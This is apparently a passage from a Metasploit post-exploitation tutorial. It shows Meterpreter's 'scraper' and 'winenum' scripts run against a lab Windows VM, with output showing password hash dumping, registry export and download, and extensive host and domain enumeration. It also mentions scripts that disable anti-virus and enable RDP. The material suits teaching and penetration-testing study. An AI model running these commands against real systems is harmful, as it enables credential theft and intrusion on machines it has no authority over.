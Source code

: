 # 10 - scraper

The scraper script can grab even more system information, including the entire registry.

```
meterpreter > run scraper

[*] New session on 10.211.55.128:4444...
[*] Gathering basic system information...
[*] Dumping password hashes...
[*] Obtaining the entire registry...
[*] Exporting HKCU
[*] Downloading HKCU (C:\WINDOWS\TEMP\LQTEhIqo.reg)
[*] Cleaning HKCU
[*] Exporting HKLM
[*] Downloading HKLM (C:\WINDOWS\TEMP\GHMUdVWt.reg)
```

From our examples above we can see that there are plenty of Meterpreter scripts for us to enumerate a ton of information, disable anti-virus for us, enable RDP, and much much more.

# 11 - winenum

The winenum script makes for a very detailed windows enumeration tool. It dumps tokens, hashes and much more.

```
meterpreter > run winenum

[*] Running Windows Local Enumerion Meterpreter Script
[*] New session on 10.211.55.128:4444...
[*] Saving report to /root/.msf4/logs/winenum/10.211.55.128_20090711.0514-99271/10.211.55.128_20090711.0514-99271.txt
[*] Checking if SSHACKTHISBOX-0 is a Virtual Machine ........
[*]     This is a VMware Workstation/Fusion Virtual Machine
[*] Running Command List ...
[*]     running command cmd.exe /c set
[*]     running command arp -a
[*]     running command ipconfig /all
[*]     running command ipconfig /displaydns
[*]     running command route print
[*]     running command net view
[*]     running command netstat -nao
[*]     running command netstat -vb
[*]     running command netstat -ns
[*]     running command net accounts
[*]     running command net accounts /domain
[*]     running command net session
[*]     running command net share
[*]     running command net group
[*]     running command net user
[*]     running command net localgroup
[*]     running command net localgroup administrators
[*]     running command net group administrators
[*]     running command net view /domain
[*]     running command netsh firewall show config
[*]     running command tasklist /svc
[*]     running command tasklist /m
[*]     running command gpresult /SCOPE COMPUTER /Z
[*]     running command gpresult /SCOPE USER /Z
[*] Running WMIC Commands ....
[*]     running command wmic computersystem list brief
[*]     running command wmic useraccount list
[*]     running command wmic group list
```